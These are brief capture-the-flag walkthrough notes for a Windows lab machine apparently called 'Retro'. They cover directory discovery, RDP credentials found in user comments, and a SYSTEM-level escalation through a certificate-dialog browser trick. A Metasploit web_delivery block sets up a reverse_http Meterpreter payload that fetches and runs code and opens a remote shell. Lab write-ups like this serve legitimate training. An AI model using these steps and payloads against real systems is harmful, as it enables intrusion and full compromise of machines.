 dirbuster finds /retro

MSRDP user and pass found on website hosted there (check user comments)

RDP login, get the file out of recycle bin and try to run it

click through the links regarding certs until you find a hyperlink which will run the web browser as nt authority\system

in browser do save as > type into file name `C:\Windows\System32\*.*` then right click cmd and run - huzzah!

metasploit
```
select exploit/multi/script/web_delivery
set target 2  # PSH
set lhost $LOCAL_VPN_IP  # see ip addr
set payload windows/meterpreter/reverse_http
```

copy the command from metasploit to RDP
